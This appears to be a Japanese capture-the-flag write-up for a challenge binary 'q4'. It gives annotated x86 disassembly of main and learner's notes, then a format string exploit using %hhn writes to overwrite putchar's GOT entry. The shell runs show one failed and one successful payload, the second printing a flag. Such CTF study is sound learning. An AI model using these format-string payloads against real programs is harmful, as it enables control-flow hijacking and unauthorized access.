 # mainのみ抜き出して調べる

080485b4 <main>:
 80485b4:	55                   	push   ebp
 80485b5:	89 e5                	mov    ebp,esp
 80485b7:	83 e4 f0             	and    esp,0xfffffff0                               調べてもわからん
 80485ba:	81 ec 20 04 00 00    	sub    esp,0x420
 80485c0:	c7 04 24 a4 87 04 08 	mov    DWORD PTR [esp],0x80487a4
 80485c7:	e8 f8 fe ff ff       	call   80484c4 <puts@plt>                           出力
    80485cc:	a1 04 9a 04 08      mov    eax,ds:0x8049a04
 80485d1:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80485d5:	c7 44 24 04 00 04 00 	mov    DWORD PTR [esp+0x4],0x400
 80485dc:	00 
 80485dd:	8d 44 24 18          	lea    eax,[esp+0x18]
 80485e1:	89 04 24             	mov    DWORD PTR [esp],eax
 80485e4:	e8 9b fe ff ff       	call   8048484 <fgets@plt>                          入力受け取り
 80485e9:	c7 04 24 b6 87 04 08 	mov    DWORD PTR [esp],0x80487b6
 80485f0:	e8 bf fe ff ff       	call   80484b4 <printf@plt>
 80485f5:	8d 44 24 18          	lea    eax,[esp+0x18]
 80485f9:	89 04 24             	mov    DWORD PTR [esp],eax
 80485fc:	e8 b3 fe ff ff       	call   80484b4 <printf@plt>
 8048601:	c7 04 24 0a 00 00 00 	mov    DWORD PTR [esp],0xa
 8048608:	e8 67 fe ff ff       	call   8048474 <putchar@plt>                        ここで改行コード?  0x80499e0に飛んでいる           
 804860d:	c7 84 24 18 04 00 00 	mov    DWORD PTR [esp+0x418],0x1
 8048614:	01 00 00 00 
 8048618:	eb 67                	jmp    8048681 <main+0xcd>
 804861a:	c7 04 24 bb 87 04 08 	mov    DWORD PTR [esp],0x80487bb
 8048621:	e8 9e fe ff ff       	call   80484c4 <puts@plt>
 8048626:	a1 04 9a 04 08       	mov    eax,ds:0x8049a04
 804862b:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 804862f:	c7 44 24 04 00 04 00 	mov    DWORD PTR [esp+0x4],0x400
 8048636:	00 
 8048637:	8d 44 24 18          	lea    eax,[esp+0x18]
 804863b:	89 04 24             	mov    DWORD PTR [esp],eax
 804863e:	e8 41 fe ff ff       	call   8048484 <fgets@plt>
 8048643:	85 c0                	test   eax,eax
 8048645:	0f 94 c0             	sete   al
 8048648:	84 c0                	test   al,al
 804864a:	74 0a                	je     8048656 <main+0xa2>
 804864c:	b8 00 00 00 00       	mov    eax,0x0
 8048651:	e9 86 00 00 00       	jmp    80486dc <main+0x128>                       ここでjmpしてる
 8048656:	c7 44 24 04 d1 87 04 	mov    DWORD PTR [esp+0x4],0x80487d1
 804865d:	08 
 804865e:	8d 44 24 18          	lea    eax,[esp+0x18]
 8048662:	89 04 24             	mov    DWORD PTR [esp],eax
 8048665:	e8 7a fe ff ff       	call   80484e4 <strcmp@plt>
 804866a:	85 c0                	test   eax,eax
 804866c:	75 13                	jne    8048681 <main+0xcd>
 804866e:	c7 04 24 d5 87 04 08 	mov    DWORD PTR [esp],0x80487d5
 8048675:	e8 4a fe ff ff       	call   80484c4 <puts@plt>
 804867a:	b8 00 00 00 00       	mov    eax,0x0
 804867f:	eb 5b                	jmp    80486dc <main+0x128>                        ここでjmpしてる
 8048681:	8b 84 24 18 04 00 00 	mov    eax,DWORD PTR [esp+0x418]
 8048688:	85 c0                	test   eax,eax
 804868a:	0f 95 c0             	setne  al
 804868d:	84 c0                	test   al,al
 804868f:	75 89                	jne    804861a <main+0x66>
 8048691:	c7 44 24 04 e6 87 04 	mov    DWORD PTR [esp+0x4],0x80487e6
 8048698:	08 
 8048699:	c7 04 24 e8 87 04 08 	mov    DWORD PTR [esp],0x80487e8
 80486a0:	e8 ff fd ff ff       	call   80484a4 <fopen@plt>                          fopenがあやしい
 80486a5:	89 84 24 1c 04 00 00 	mov    DWORD PTR [esp+0x41c],eax
 80486ac:	8b 84 24 1c 04 00 00 	mov    eax,DWORD PTR [esp+0x41c]
 80486b3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80486b7:	c7 44 24 04 00 04 00 	mov    DWORD PTR [esp+0x4],0x400
 80486be:	00 
 80486bf:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486c3:	89 04 24             	mov    DWORD PTR [esp],eax
 80486c6:	e8 b9 fd ff ff       	call   8048484 <fgets@plt>
 80486cb:	8d 44 24 18          	lea    eax,[esp+0x18]
 80486cf:	89 04 24             	mov    DWORD PTR [esp],eax
 80486d2:	e8 dd fd ff ff       	call   80484b4 <printf@plt>
 80486d7:	b8 00 00 00 00       	mov    eax,0x0
 80486dc:	c9                   	leave                                          jmp先がここ
 80486dd:	c3                   	ret    
 80486de:	90                   	nop
 80486df:	90                   	nop


 # 気づき
 - これはアセンブラ(マシン語と一対一対応している)
 - 80486dcは2つ登場
 - mov(命令、ニーモニック)代入を表す
 - レジスタ: eax,ebx,ecx,edx/esi,edi,ebp,esp,eip/cs,ds,ss,es,fs,gs/eflag
 - espレジスタはスタックの位置を指ししめす。
 - strcmp: 文字列比較

- putcharで飛ぶ先(0x80499e0)をfopen直前に変えてやれば良い
- jneは分岐を表すので、その直後の8048691からfopenの処理が始まっていると見る。
- `\xe0\x99\x04\x08\xe1\x99\x04\x08\xe2\x99\x04\x08%93c%6$hhn%223c%7$hhn%56c%8$hhn`
- これ違った(0抜けてた)
"""
[q4@localhost ~]$ echo -e '\xe0\x99\x04\x08\xe1\x99\x04\x08\xe2\x99\x04\x08%93c%6$hhn%223c%7$hhn%56c%8$hhn' | ./q4
What's your name?
Hi, ������                                                                                                                                                                                                                                                                                                                          �                                                       
Segmentation fault
[q4@localhost ~]$ echo -e '\xe0\x99\x04\x08\xe1\x99\x04\x08\xe2\x99\x04\x08\xe3\x99\x04\x08%129c%6$hhn%245c%7$hhn%126c%8$hhn%4c%9$hhn' | ./q4
What's your name?
Hi, ��������                                                                                                                                                                                                                                                                                                                                                                                    �                                                                                                                               
FLAG_nwW6eP503Q3QI0zw

"""





http://inaz2.hatenablog.com/entry/2014/04/20/041453
